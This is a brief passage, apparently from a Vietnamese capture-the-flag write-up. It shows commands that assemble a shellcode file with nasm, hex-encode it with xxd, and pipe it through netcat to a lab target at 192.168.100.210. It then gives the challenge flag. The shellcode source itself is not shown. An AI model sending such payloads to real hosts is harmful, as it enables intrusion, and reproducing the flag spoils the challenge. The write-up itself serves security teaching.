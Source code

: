 Chạy lệnh sau: (nhớ copy file asm vào desktop Kali)<br/>
<code>nasm sc2_soln.asm</code><br/>
<code>xxd -ps sc2_soln</code><br/>
<code>xxd -ps sc2_soln | nc 192.168.100.210 16831</code><br/>
Cờ là <code>ProcessCertainNearly173</code>
